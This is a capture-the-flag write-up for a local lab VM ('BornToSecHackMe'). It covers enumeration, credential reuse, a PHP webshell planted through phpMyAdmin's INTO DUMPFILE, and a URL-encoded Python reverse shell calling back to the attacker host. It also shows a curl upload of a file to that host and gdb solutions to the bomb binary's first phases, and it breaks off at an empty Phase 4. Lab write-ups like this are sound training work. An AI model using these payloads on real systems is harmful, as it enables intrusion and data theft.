# Writeup 1


## Enumeration

- `nmap -T4 --top-ports 1000 192.168.56.8`
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

We can see an HTTTP(S) server running. Let's check it out !\
It's a simple website with nothing in particular, we must dig into it.


**http://192.168.56.8/admin** returns 404 but we get the version of the webserver, *Apache/2.2.22*, it may be interesting
later.

Let's fuzz the website.

- `ffuf -c -w /opt/secliosts/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.8/FUZZ`

```
forum                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 0ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 0ms]
server-status           [Status: 403, Size: 293, Words: 21, Lines: 11, Duration: 0ms]
```

We found some things interesting but we cannot access it since it returns the code **403**. Earlier we saw that there is
also an **https** server, we should try it.

- `ffuf -c -w /opt/secliosts/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://192.168.56.8/FUZZ`

```
forum                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 0ms]
webmail                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 0ms]
phpmyadmin              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 0ms]
server-status           [Status: 403, Size: 294, Words: 21, Lines: 11, Duration: 0ms]
```

Bingo ! We cannot log into the phpmyadmin, defaults credentials don't work. Let's check the forum.

```
includes                [Status: 301, Size: 323, Words: 20, Lines: 10]
update                  [Status: 301, Size: 321, Words: 20, Lines: 10]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10]
lang                    [Status: 301, Size: 319, Words: 20, Lines: 10]
config                  [Status: 403, Size: 293, Words: 21, Lines: 11]
backup                  [Status: 403, Size: 293, Words: 21, Lines: 11]
templates_c             [Status: 301, Size: 326, Words: 20, Lines: 10]
```

The main page is **https://192.168.56.8/forum/index.php?mode=index**, let's try to fuzz the *mode* parameter.
In all request to the forum: **<meta name="generator" content="my little forum 2.3.4" />**

```
search                  [Status: 200, Size: 3001, Words: 183, Lines: 64, Duration: 22ms]
contact                 [Status: 200, Size: 3418, Words: 209, Lines: 71, Duration: 26ms]
rss                     [Status: 200, Size: 63240, Words: 7461, Lines: 648, Duration: 20ms]
login                   [Status: 200, Size: 3270, Words: 208, Lines: 69, Duration: 26ms]
register                [Status: 200, Size: 2538, Words: 161, Lines: 59, Duration: 33ms]
page                    [Status: 200, Size: 2517, Words: 155, Lines: 59, Duration: 30ms]
0                       [Status: 200, Size: 4935, Words: 310, Lines: 81, Duration: 33ms]
user                    [Status: 200, Size: 5065, Words: 236, Lines: 139, Duration: 41ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 36ms]
entry                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 38ms]
thread                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 34ms]
posting                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 142ms]
avatar                  [Status: 200, Size: 2099, Words: 265, Lines: 51, Duration: 374ms]
disabled                [Status: 200, Size: 2530, Words: 157, Lines: 59, Duration: 39ms]
```

## Exploitation

There is a **Probleme login** post on the forum that might be interesting.


- `curl -s -k "https://192.168.56.8/forum/index.php?mode=thread&id=6" | grep password`

By reading the logs, we see something that looks like a password: `Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2<br />`

Since the post is posted by *lmezard* we could try to ssh on it.

```
ssh lmezard@192.168.56.8                                                               
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
lmezard@192.168.56.8's password:
Permission denied, please try again.
```

But it fails, let's try on the forum page. Success !



On the profile page we can see a mail address *(laurie@borntosec.net). It might be interesting since we found a webmail.\


Let's try on the webmail with the previous password. Success again !


On the mail *DB ACCESS* we find credentials, **root/Fg-'kKXBj87E:aJ$** let's try it on the *phpmyadmin* page.\


Bingo again ! We have total control on the database since we are *root*.


Nothing interesting in the database, but we could try something else. Since we are root we can execute som sql queries,
and if we are lucky we can upload a webshell on the server by executing `SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '<directory>';`

After trying a lot of path, there is only one path where we got permission to create file, *templates_c*. Let's do it !

- `SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/forum/templates_c/webshell.php'`



Ok, now we must test it.

```
curl -k -s "https://192.168.56.8/forum/templates_c/shell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Post-Exploitation


Great ! We have a webshell. Now we can try to have a reverse shell.\
For this there is [](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```
curl -k -s "https://192.168.56.8/forum/templates_c/shell.php?cmd=which+python"                                                                                                                                           [27/09/23 | 4:07:39]
/usr/bin/python
```

There is python on the machine. We can spawn a reverse shell with it. First we must open an other terminal and start
the listener with *netcat*.

- `nc -nvlp 4242`

And on the first terminal we execute the following command:

- `curl -k -s "https://192.168.56.8/forum/templates_c/webshell.php?cmd=%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%35%36%2e%35%22%2c%34%32%34%32%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27"`

Which is a reverse shell encoded in url format with *burpsuite*.\


We have a reverse shell ! Let's spawn a tty shell.

`python -c 'import pty;pty.spawn("/bin/bash")'`

Ok we have a great reverse shell, now let's enumerate the machine.

It is possible to dump the **passwd** file to see valid users on the machine.

```
www-data@BornToSecHackMe:/var/www/forum/templates_c$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```

```
www-data@BornToSecHackMe:/var/www/forum/templates_c$ ls -lah /home
total 0
drwxrwx--x 1 www-data             root                  60 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 220 Sep 27 10:36 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net  60 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```

We do not have rights to search on user's directory but there is a *LOOKATME* directory, so we should look at it (:

```
www-data@BornToSecHackMe:/var/www/forum/templates_c$ ls -lah /home/LOOKATME
total 512
drwxr-x--- 2 www-data www-data 31 Oct  8  2015 .
drwxrwx--x 1 www-data root     60 Oct 13  2015 ..
-rwxr-x--- 1 www-data www-data 25 Oct  8  2015 password
www-data@BornToSecHackMe:/var/www/forum/templates_c$ cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

We may authenticate as **lmezard** with these credentials.



Now we can inspect the **lmezard's** home directory.

```
lmezard@BornToSecHackMe:~$ ls -lah /home/lmezard
total 791K
dr-xr-x--- 2 lmezard  lmezard   61 Oct 15  2015 .
drwxrwx--x 1 www-data root      60 Oct 13  2015 ..
-rw-r--r-- 1 root     root       1 Oct 15  2015 .bash_history
-rwxr-x--- 1 lmezard  lmezard 790K Oct  8  2015 fun
-rwxr-x--- 1 lmezard  lmezard   96 Oct 15  2015 README
lmezard@BornToSecHackMe:~$ cat /home/lmezard/README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

We are challenged to find valid ssh credentials for user **laurie**.\
In the same directory there is a **fun** file, if we use the command `file` on it, it indicates that it is a **tar archive**,
so we need to extact it. However we do not have rights on the machine to do it there, let's upload the archive on our
machine.

### UploadServer

In our machine:

1. `pip3 install uploadserver`
2. `python3 -m uploadserver`



In the victim's machine:
3. `curl -X POST 'http://192.168.56.5:8000/upload' -F 'files=@./fun'`




Now let's extract the archive.

- `tar -xvf ./fun`

It creates a directory named **ft_fun** full of **.pcap** files. Pcap files are logs of captured traffic over a network,
we can read thoses files with **wireshark**, but in a first place, we have to sort them.

A simple **cat** on them reveals their content:

```
//file210}void useless() {
//file88	printf("Hahahaha Got you!!!\n");
//file586	printf("Hahahaha Got you!!!\n");
//file63}void useless() {
//file667	printf("Hahahaha Got you!!!\n");
//file395}void useless() {
//file440}void useless() {
//file279	printf("Hahahaha Got you!!!\n");
//file652	printf("Hahahaha Got you!!!\n");
//file449	printf("Hahahaha Got you!!!\n");
//file614	printf("Hahahaha Got you!!!\n");
//file200	printf("Hahahaha Got you!!!\n");
//file75void useless() {
//file9	printf("Hahahaha Got you!!!\n");
//file95	printf("Hahahaha Got you!!!\n");
```

It seems to ask for a password or something to validates and it's a C code. Maybe there is a main function.

```
grep -A31 main *
BJPCP.pcap:int main() {
BJPCP.pcap-	printf("M");
BJPCP.pcap-	printf("Y");
BJPCP.pcap-	printf(" ");
BJPCP.pcap-	printf("P");
BJPCP.pcap-	printf("A");
BJPCP.pcap-	printf("S");
BJPCP.pcap-	printf("S");
BJPCP.pcap-	printf("W");
BJPCP.pcap-	printf("O");
BJPCP.pcap-	printf("R");
BJPCP.pcap-	printf("D");
BJPCP.pcap-	printf(" ");
BJPCP.pcap-	printf("I");
BJPCP.pcap-	printf("S");
BJPCP.pcap-	printf(":");
BJPCP.pcap-	printf(" ");
BJPCP.pcap-	printf("%c",getme1());
BJPCP.pcap-	printf("%c",getme2());
BJPCP.pcap-	printf("%c",getme3());
BJPCP.pcap-	printf("%c",getme4());
BJPCP.pcap-	printf("%c",getme5());
BJPCP.pcap-	printf("%c",getme6());
BJPCP.pcap-	printf("%c",getme7());
BJPCP.pcap-	printf("%c",getme8());
BJPCP.pcap-	printf("%c",getme9());
BJPCP.pcap-	printf("%c",getme10());
BJPCP.pcap-	printf("%c",getme11());
BJPCP.pcap-	printf("%c",getme12());
BJPCP.pcap-	printf("\n");
BJPCP.pcap-	printf("Now SHA-256 it and submit");
BJPCP.pcap-}
```

Ok it prints a password by calling some functions, we should **grep** them.

```
grep -A3 "char getme" *                                                                                                                                                                                                 
0T16C.pcap:char getme4() {
0T16C.pcap-
0T16C.pcap-//file115
--
32O0M.pcap:char getme7() {
32O0M.pcap-
32O0M.pcap-//file736
--
331ZU.pcap:char getme1() {
331ZU.pcap-
331ZU.pcap-//file5
--
4KAOH.pcap:char getme5() {
4KAOH.pcap-
4KAOH.pcap-//file368
--
91CD0.pcap:char getme6() {
91CD0.pcap-
91CD0.pcap-//file521
--
B62N4.pcap:char getme3() {
B62N4.pcap-
B62N4.pcap-//file56
--
BJPCP.pcap:char getme8() {
BJPCP.pcap-	return 'w';
BJPCP.pcap-}
BJPCP.pcap-/*
--
BJPCP.pcap:char getme9() {
BJPCP.pcap-	return 'n';
BJPCP.pcap-}
BJPCP.pcap-/*
--
BJPCP.pcap:char getme10() {
BJPCP.pcap-	return 'a';
BJPCP.pcap-}
BJPCP.pcap-/*
--
BJPCP.pcap:char getme11() {
BJPCP.pcap-	return 'g';
BJPCP.pcap-}
BJPCP.pcap-/*
--
BJPCP.pcap:char getme12()
BJPCP.pcap-{
BJPCP.pcap-	return 'e';
BJPCP.pcap-}
--
G7Y8I.pcap:char getme2() {
G7Y8I.pcap-
G7Y8I.pcap-//file37
```

There are comments, that seem indicate a **file number**, if it's an order of the files, we should assemble them
in the correct order to get the password. We can use a little script in python in the folder **scripts** to do that.

- `python3 ./scripts/pcap_to_c.py`

The script creates a **challenge.c**.

```
gcc challenge.c -o challenge                                                                                                                                                                                                                                                                                                                                                                                                                                                    [29/09/23 | 10:12:49]
./challenge                                                                                                                                                                                                                                                                                                                                                                                                                                                                     [29/09/23 | 10:12:51]
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 ╭─pyves@ELY0028 ~/gitlab/42/42-boot2root  ‹main*›
```

Great whe have the password, we just have to encode it with **sha256** and **ssh** as **laurie**.

```
echo -n 'Iheartpwnage' | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
╭─pyves@ELY0028 ~/gitlab/42/42-boot2root  ‹main*›
╰─➤  ssh laurie@192.168.56.8                                                                                                                                                                                                                                                                                                                                                                                                                                                         [29/09/23 | 10:16:26]
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.8's password:
laurie@BornToSecHackMe:~$ id
id=1003(laurie) gid=1003(laurie) groups=1003(laurie)1
```

### Laurie

The command `ls` in the home directory of **laurie** reveals a **README** with instructions to get the password for the
user **thor**:

```
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

We try to lauch the script named **bomb**.

```
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Hello World !

BOOM!!!
The bomb has blown up.
```

It asks for an entry in **stdin** but we do not know what to enter. Let's debug the program.

- `gdb ./bomb`
- `disass main`

```
    ...
   0x08048a5b <+171>:	call   0x8048b20 <phase_1>
   0x08048a60 <+176>:	call   0x804952c <phase_defused>
   ...
   0x08048a7e <+206>:	call   0x8048b48 <phase_2>
   0x08048a83 <+211>:	call   0x804952c <phase_defused>
   ..
   0x08048aa1 <+241>:	call   0x8048b98 <phase_3>
   0x08048aa6 <+246>:	call   0x804952c <phase_defused>
   ...
   0x08048ac4 <+276>:	call   0x8048ce0 <phase_4>
   0x08048ac9 <+281>:	call   0x804952c <phase_defused>
   ...
   0x08048ae7 <+311>:	call   0x8048d2c <phase_5>
   0x08048aec <+316>:	call   0x804952c <phase_defused>
   ...
   0x08048b0a <+346>:	call   0x8048d98 <phase_6>
   0x08048b0f <+351>:	call   0x804952c <phase_defused>
   ...
```

Ok there are **6** functions named **phase_NUMBER**. We need to solve all these phases to get the password.

#### Phase 1

```
(gdb) disass phase_1
Dump of assembler code for function phase_1:
   0x08048b20 <+0>:	push   %ebp
   0x08048b21 <+1>:	mov    %esp,%ebp
   0x08048b23 <+3>:	sub    $0x8,%esp
   0x08048b26 <+6>:	mov    0x8(%ebp),%eax
   0x08048b29 <+9>:	add    $0xfffffff8,%esp
   0x08048b2c <+12>:	push   $0x80497c0
   0x08048b31 <+17>:	push   %eax
   0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>
   0x08048b37 <+23>:	add    $0x10,%esp
   0x08048b3a <+26>:	test   %eax,%eax
   0x08048b3c <+28>:	je     0x8048b43 <phase_1+35>
   0x08048b3e <+30>:	call   0x80494fc <explode_bomb>
   0x08048b43 <+35>:	mov    %ebp,%esp
   0x08048b45 <+37>:	pop    %ebp
   0x08048b46 <+38>:	ret
```

The code compares two strings, what we enter and another string located at `0x80497c0` whose content is:

```
(gdb) x/s 0x80497c0
0x80497c0:	 "Public speaking is very easy."
```

This is the phrase to solve phase 1.

#### Phase 2

```
ump of assembler code for function phase_2:
   0x08048b48 <+0>:	push   %ebp
   0x08048b49 <+1>:	mov    %esp,%ebp
   0x08048b4b <+3>:	sub    $0x20,%esp
   0x08048b4e <+6>:	push   %esi
   0x08048b4f <+7>:	push   %ebx
   0x08048b50 <+8>:	mov    0x8(%ebp),%edx
   0x08048b53 <+11>:	add    $0xfffffff8,%esp
   0x08048b56 <+14>:	lea    -0x18(%ebp),%eax
   0x08048b59 <+17>:	push   %eax
   0x08048b5a <+18>:	push   %edx
   0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
   0x08048b60 <+24>:	add    $0x10,%esp
   0x08048b63 <+27>:	cmpl   $0x1,-0x18(%ebp)
   0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
   0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
   0x08048b6e <+38>:	mov    $0x1,%ebx
   0x08048b73 <+43>:	lea    -0x18(%ebp),%esi
   0x08048b76 <+46>:	lea    0x1(%ebx),%eax
   0x08048b79 <+49>:	imul   -0x4(%esi,%ebx,4),%eax
   0x08048b7e <+54>:	cmp    %eax,(%esi,%ebx,4)
   0x08048b81 <+57>:	je     0x8048b88 <phase_2+64>
   0x08048b83 <+59>:	call   0x80494fc <explode_bomb>
   0x08048b88 <+64>:	inc    %ebx
   0x08048b89 <+65>:	cmp    $0x5,%ebx
   0x08048b8c <+68>:	jle    0x8048b76 <phase_2+46>
   0x08048b8e <+70>:	lea    -0x28(%ebp),%esp
   0x08048b91 <+73>:	pop    %ebx
   0x08048b92 <+74>:	pop    %esi
   0x08048b93 <+75>:	mov    %ebp,%esp
   0x08048b95 <+77>:	pop    %ebp
   0x08048b96 <+78>:	ret
End of assembler dump.
```

This function compares 6 numbers we enter in **stdin** and do some maths with them. The decompiled code by **Ghidra**
looks like it:



We have to start with number **1** then, if each number we enter must be equal to:\
(the index of the number + 1) * the value of the number

So by starting with **1** we get:
1. 1
2. (1 + 1) * 1 = 2
3. (2 + 1) * 2 = 6
4. (3 + 1) * 6 = 24
5. (4 + 1) * 24 = 120
6. (5 + 1) * 120 = 720

So the solution is `1 2 6 24 120 720`.

#### Phase 3




Now the code get three inputs from **stdin**, a number, a char, a number. It compares the **first number** with multiples values,
and then the **last number** with a value linked to the **first number**, finally the **char** must be equal to the character 
assigned into `cvar2`.
So we can choose whatever we want, here are all the possibilities:

- `0 q 777`
- `1 b 214`
- `2 b 755`
- `3 k 0xfb 251`
- `4 o 160`
- `5 t 458`
- `6 v 780`
- `7 b 524`

But with the hint discovered earlier we can reduce the number of solutions to 3 since the 2nd character must me be a `b`:
```
HINT:
P
2
b

o
4
```

So it's one of these 3 possibilites:

- `1 b 214`
- `2 b 755`
- `7 b 524`


#### Phase 4


